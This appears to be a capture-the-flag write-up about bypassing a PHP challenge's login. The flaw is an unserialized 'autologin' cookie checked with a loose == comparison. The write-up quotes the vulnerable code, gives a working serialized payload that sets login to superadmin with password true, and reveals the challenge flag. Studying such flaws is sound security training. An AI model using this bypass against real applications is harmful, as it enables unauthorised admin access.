

The vulnerable part is here:
```php
// autologin cookie ?
else if($_COOKIE['autologin']){
    $data = unserialize($_COOKIE['autologin'])
```

We can bypass this check because it uses `==`, which gives us loose comparison.
```php
// check password !
if ($data['password'] == $auth[ $data['login'] ] ) {
    $_SESSION['login'] = $data['login'];
```
As we can see from the table, `"php"` equals to `TRUE`, so that's how we'll bypass the password, by supplying this: `s:8:"password";b:1;`



Then, the code checks `$_SESSION['login']`, which was set earlier with `$data['login']`, so we can give it `superadmin` and that's it.
```php
// admin ?
if($_SESSION['login'] === "superadmin"){
    require_once('admin.inc.php');
}
```

So, the final payload will look like:
```
a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
```

I'm using `Hackvertor` extension in burp suite for encoding easily.


**Flag:** **_`NoUserInputInPHPSerialization!`_**
